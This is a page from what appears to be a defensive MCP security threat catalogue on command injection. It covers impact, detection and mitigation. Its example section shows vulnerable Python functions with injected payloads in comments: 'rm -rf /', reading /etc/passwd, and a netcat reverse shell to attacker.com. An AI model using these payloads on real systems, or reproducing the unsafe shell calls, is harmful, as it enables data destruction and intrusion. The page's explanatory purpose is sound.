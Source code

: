 ```yaml
---
layout: default
title: "Command Injection"
permalink: /ttps/command-injection/command-injection/
nav_order: 1
parent: "Command & Code Injection"
grand_parent: "MCP Security TTPs"
---
```


# Command Injection

**Category**: Command & Code Injection  
**Severity**: Critical  
**MITRE ATT&CK Mapping**: T1059 (Command and Scripting Interpreter)

## Description

Execution of arbitrary system commands through unsanitized input passed to MCP tools, enabling attackers to execute unauthorized commands on the host system.

## Technical Details

### Attack Vector
- Unsanitized input passed to system commands
- Shell command execution through MCP tools
- Command concatenation vulnerabilities
- Parameter injection in system calls

### Common Techniques
- Shell metacharacter injection
- Command chaining with semicolons
- Pipe-based command injection
- Background process execution

## Impact

- **System Compromise**: Full system access through command execution
- **Data Theft**: Access to sensitive files and data
- **Privilege Escalation**: Execution of commands with elevated privileges
- **Lateral Movement**: Access to network resources and connected systems

## Detection Methods

### System Monitoring
- Monitor system call execution
- Track process spawning
- Detect unusual command patterns
- Analyze command line arguments

### Behavioral Analysis
- Monitor tool execution patterns
- Detect anomalous system interactions
- Track command execution frequency
- Analyze execution context

## Mitigation Strategies

### Input Validation
- Implement strict input sanitization
- Use input validation libraries
- Deploy parameter filtering
- Validate command arguments

### Execution Controls
- Use parameterized command execution
- Implement command allow-lists
- Deploy execution sandboxing
- Restrict system access

## Real-World Examples

### Example 1: Shell Metacharacter Injection
```python
def ping_host(hostname):
    # Vulnerable command execution
    result = os.system(f"ping -c 4 {hostname}")
    
    # Attack: hostname = "google.com; rm -rf /"
    # Executed: ping -c 4 google.com; rm -rf /
```

### Example 2: Command Chaining
```python
def list_files(directory):
    # Vulnerable directory listing
    output = subprocess.check_output(f"ls {directory}", shell=True)
    
    # Attack: directory = "/tmp && cat /etc/passwd"
    # Executed: ls /tmp && cat /etc/passwd
```

### Example 3: Background Process Injection
```python
def backup_file(filename):
    # Vulnerable backup command
    os.system(f"cp {filename} /backup/")
    
    # Attack: filename = "file.txt & nc attacker.com 4444 -e /bin/bash &"
    # Executed: cp file.txt /backup/ & nc attacker.com 4444 -e /bin/bash &
```

## References & Sources

- **Strobes Security** - "MCP and Its Critical Vulnerabilities"
- **Prompt Security** - "Top 10 MCP Security Risks You Need to Know"
- **Red Hat** - "Model Context Protocol (MCP): Understanding security risks and controls"
- **Simon Willison** - "Model Context Protocol has prompt injection security problems"
- **Structured MCP Threats** - Comprehensive threat landscape analysis

## Related TTPs

- [OS Command Injection](os-command-injection.md)
- [Shell Command Execution](shell-command-execution.md)
- [Code Injection](code-injection.md)

---

*Command injection represents one of the most critical vulnerabilities in MCP systems, enabling direct system compromise through arbitrary command execution.*